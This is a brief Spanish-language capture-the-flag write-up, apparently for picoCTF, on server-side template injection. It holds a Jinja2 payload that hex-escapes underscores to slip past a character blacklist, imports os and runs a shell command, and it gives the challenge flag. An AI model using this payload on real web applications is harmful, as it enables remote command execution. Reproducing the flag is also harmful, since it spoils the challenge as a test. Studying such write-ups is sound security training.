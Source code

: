 #### - **Descripción** 
¡Creé una página web genial donde puedes anunciar lo que quieras! Leí sobre la limpieza de entradas, así que ahora elimino cualquier carácter que pueda ser problemático :)He oído que usar plantillas es una forma genial y modular de crear aplicaciones web. ¡Visita mi sitio web [aquí](http://shape-facility.picoctf.net:57653/) !

#### Pista 
Inyección de plantilla del lado del servidor

¿Por qué es una mala idea incluir personajes en la lista negra para desinfectar la entrada?

#### - **Solución** 
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}


picoCTF{sst1_f1lt3r_byp4ss_7c3c6e7f}
